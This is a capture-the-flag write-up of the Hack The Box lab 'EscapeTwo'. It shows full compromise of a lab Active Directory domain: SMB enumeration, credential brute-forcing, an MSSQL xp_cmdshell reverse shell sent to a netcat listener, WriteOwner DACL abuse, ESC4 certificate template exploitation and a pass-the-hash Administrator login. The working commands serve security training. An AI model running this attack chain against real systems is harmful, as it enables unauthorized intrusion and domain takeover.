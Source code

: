 ```yaml
---
date: 2025-06-28
categories: [Windows, Easy, AD]
---
```


![EscapeTwo](https://labs.hackthebox.com/storage/avatars/d5fcf2425893a73cf137284e2de580e1.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [ruycr4ft](https://app.hackthebox.com/users/1253217) & [Llo0zy](https://app.hackthebox.com/users/1615089)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Windows   |

---








 - I began with a full TCP port scan, followed by a service and version detection scan on the discovered open ports

	```python
	nmap -p- --open --min-rate 5000 -Pn -sS 10.10.11.51 -oG scan
	/opt/extractports scan
	nmap -p53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,47001,49664,49665,49666,49667,49685,49686,49687,49702,49718,49739,49807 -sCV -Pn 10.10.11.51 -oN ports
	```

	![image](https://github.com/user-attachments/assets/a4401c2d-573a-4406-9cb8-092f567e3286)

- I found the domain `sequel.htb` and `DC01.sequel.htb` and add it to the file in the `hosts` file.

## Initial Access (SMB Enumeration)

- Hack The Box provided initial credentials:
	```python
	Username: rose  
	Password: KxEPkKe6R8su
	```

- Using `netexec`, I enumerated accessible SMB shares:

	```python
	netexec smb 10.10.11.51 -u rose -p KxEPkKe6R8su --shares
	```

- The share named `Accounting Department` was accessible. I mounted it using `smbclient`:

	```python
	smbclient  //10.10.11.51/"Accounting Department" -U "rose"
	```

- Inside the share, I found two `.xlsx` files containing several potential credentials. I brute-forced SMB logins with these using:

	```python
	netexec smb 10.10.11.51 -u users -p pass --continue-on-success
	```

- This revealed that the user `oscar` had valid credentials, although they didn’t provide further access.

## Exploiting MSSQL Service

- Continuing the brute-force process, I discovered that the `sa` account had valid credentials on the MSSQL service. I connected using `impacket-mssqlclient`:
	
	```python
	impacket-mssqlclient sa@10.10.11.51
	```
	

- I try to execute command using “xp_cmdshell” and it is not enabled.

```python
	EXEC xp_cmdshell 'dir C:\'
```

- Initially, `xp_cmdshell` was disabled. I attempted to enable it using the following commands:

	```python
	EXEC sp_configure 'show advanced options', 1;
	RECONFIGURE;
	EXEC sp_configure 'xp_cmdshell', 1;
	RECONFIGURE;
	EXEC xp_cmdshell 'dir C:\';
	```


- Once enabled, I generated a reverse shell payload using [revshells.com](https://www.revshells.com) and executed it through `xp_cmdshell`:

	```python
	EXEC xp_cmdshell 'powershell -e <Base64 encoded payload>';
	```

- On my listener:

	```python
	nc -nlvp 4444
	```

- Having already a shell as the user sa, I search through the files and I find inside the SQL2019 directory a configuration file “sql-Configuration.INI” that contains some credentials.


## Privilege Escalation to ryan (WinRM)

- While exploring the file system with the `sa` shell, I located a file `sql-Configuration.INI` in the `SQL2019` directory, which contained credentials for the `ryan` user.

- I confirmed that `ryan` was a member of the _Remote Management Users_ group, allowing WinRM access:

	```python
	evil-winrm -i 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3
	```

- After logging in successfully, I retrieved the first flag.

## Enumeration with BloodHound

- To identify privilege escalation paths, I collected data using `bloodhound-python`:

	```python
	bloodhound-python -c all -u ryan -p WqSZAF6CysDQbGb3 -ns 10.10.11.51 -d sequel.htb
	```

- Analysis revealed that the user `ryan` had `WriteOwner` permissions over the `ca_svc` user. This permission allows changing ownership and resetting the password.

![image](https://github.com/user-attachments/assets/3c74da8f-424b-43dd-b8b2-412d32cfadf1)

## Abusing WriteOwner Rights

- Following the methodology described in [HackingArticles](https://www.hackingarticles.in/abusing-ad-dacl-writeowner/), I used Impacket tools to change ownership and grant full control:

	```python
	python3 owneredit.py  -action write -new-owner 'ryan' -target-dn 'CN=Certification Authority,CN=Users,DC=sequel,DC=htb' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51
	```

- Then granted `FullControl`:

	```python
	python3 dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target-dn 'CN=Certification Authority,CN=Users,DC=sequel,DC=htb' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51
	```

- Finally, I changed the password:

	```python
	net rpc password ca_svc  'PepePepe' -U sequel.htb/ryan%'WqSZAF6CysDQbGb3' -S 10.10.11.51
	netexec smb 10.10.11.51 -u ca_svc -p 'PepePepe'
	```

## ADCS Exploitation (ESC4)

- With access to `ca_svc`, I enumerated certificate templates using `certipy-ad`:

	```python
	certipy-ad find -u ca_svc -p 'PepePepe' -dc-ip 10.10.11.51 -stdout -enabled -vulnerable
	```

- One of the templates was vulnerable to [ESC4](https://adminions.ca/books/abusing-active-directory-certificate-services/page/esc4). I used `certipy-ad` to request a certificate with the UPN set to `Administrator`:

	```python
	certipy-ad template -u 'ca_svc@sequel.htb' -p 'PepePepe' -template DunderMifflinAuthentication -save-old -dc-ip 10.10.11.51
	
	certipy-ad req -u 'ca_svc@sequel.htb' -p 'PepePepe' -ca sequel-DC01-CA -template DunderMifflinAuthentication -upn Administrator
	
	certipy-ad auth -pfx administrator.pfx -username Administrator -domain sequel.htb
	```

- With the certificate, I obtained the hash for the `Administrator` account and logged in using Evil-WinRM:

	```python
	evil-winrm -i 10.10.11.51 -u Administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff
	```

- This granted me full administrative access and allowed retrieval of the final flag.
